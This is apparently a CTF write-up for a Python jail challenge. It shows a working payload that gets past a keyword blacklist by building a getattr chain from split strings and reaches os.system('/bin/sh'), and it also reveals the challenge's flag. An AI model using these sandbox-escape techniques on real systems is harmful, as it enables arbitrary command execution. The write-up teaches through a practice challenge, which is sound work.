

# Pygulag


This is a harder version of the initial pyjail given in this CTF.

Note: The `jail.py` file attached was not given during the CTF. I exfitrated this file while working on the challenge.

Final Payload:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__"), "__subcl"+"asses__")()[-4].__init__, "__glo"+"bals__")["sy"+"s"+"tem"]("/bi"+"n/s"+"h")
```

In the previous pyjail, the words `exec` and `eval` were filtered. I decided to start with my old payload:

`[].__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/bash')`

I determined that:

- `__class__` is now on the blacklist
- `__base__` is now on the blacklist
- `__subclasses__` is now on the blacklist.
- `=` is now on the blacklist.
- `system` is now on the blacklist.

This completely breaks my previous payload. I'm using attributes to make my way up to the object class, and these attributes are case sensitive, so I need to find a new way to do this.

Rather than starting from `[]` or `{}`, I decided to start from the `print` function for this jail. Using a local Python shell, I can see what I have access to:

```
>>> dir(print)
['__call__', '__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__self__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__text_signature__']
```

The thing that stuck out to me is `__getattribute__`. If I am able to use this, I can access things like `__class__` using a string, so I'm able to avoid a word filter by getting `__cl` + `ass__`. Unforutnately, this was also blacklisted.

The next thing I did was check out out `print.__self__` would let me access:

```
>>> dir(print.__self__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EncodingWarning', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

And this gives me access to a lot of things!

There are a few interesting things above, including

- `locals()` function
- `globals()` function
- `getattr()` function
- `__loader__` directive (not entirely sure if directive is the correct word to use here)

Calling the locals() function on remote shows me the following:

```
>> print(print.__self__.locals())
{'ImTheFlagFunction9876543210': <function ImTheFlagFunction9876543210 at 0x7fb7e93c3dc0>, 'main at 0x7fb7e93c3ee0>, 'jail': <function jail at 0x7fb7e93c3e50>}
```

!!! looks like there is a flag function. Let's call it:

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'])
<function ImTheFlagFunction9876543210 at 0x7fb7e93c3dc0>
```



Of course it won't be that easy...

From here I tried messing with the `__code__` attribute of the function object to see if I could reconstruct the function to see what is happening there.

I was able to see the following information:

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_varnames)
('key', 'p1', 'p2', 'p3', 'x', 'c', 'p4', 'p5', 'flag')
```

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_argcount)
1
```

```
>> print(print.__self__.locals()['jail'].__code__.co_consts)
(None, '>> ', 'import', 'os', 'sys', 'eval', 'exec', '__builtins__', '__globals__', '__getattribute__', '__dict__', '__base__', '__class__', '__subclasses__', 'dir', 'help', 'exit', 'open', 'read', 'jail()', 'main()', 'replace', '=', True, "You're trying something fancy aren't u ?", False, 23, 126, 'print', ('ImTheFlagFunction9876543210', 'main', 'jail'), 'An error occured. But which...')
>>
```

```
>> print(print.__self__.locals()['ImTheFlagFunction9876543210'].__code__.co_consts)
(None, 'Hero{4', '33e8e40da5bec09', -1, '', 12, b'?;9ms!w$ -.. ++', 1, 48, '}', 'Hero{F4ke_Fl4g}')
```

Using the above information, I'm able to deduce that the function itself does compute the flag, but a fake flag is printed to the terminal instead. So I will shift my goal now to getting a shell.

Going back to `print.__self__`, I see that I have access to the function `getattr()` . Unlike `__getattribute__`, this is not filtered, so I now have a clear way of fetching a reference to the base object model, a reference to the os model, and eventually `os.system()`.

Because the function allows me to pass in the attribute I want as a string, I can evade whatever filters exist by concatenating strings.

For example, see the following:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__")
```

This allows me to get the base object class. If I nest several of these calls, I can reconstruct the logic of my payload from the first jail to get a shell:

```
print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.getattr(print.__self__.list, "__clas"+"s__"), "__ba"+"se__"), "__subcl"+"asses__")()[-4].__init__, "__glo"+"bals__")["sy"+"s"+"tem"]("/bi"+"n/s"+"h")
```

Now with this, i can `cat jail.py` to see the actual flag function:

```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    print('Hero{F4ke_Fl4g}')
```

I can easily modify this:

```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    print(flag)
```

For the parameter, it looks like it does not matter what the value is as long it is 2 characters or more and the second character is not zero (which would cause division by zero when calculating `p4`.)

So we can call the function with `ImTheFlagFunction9876543210("win")` to get the flag:

Flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`
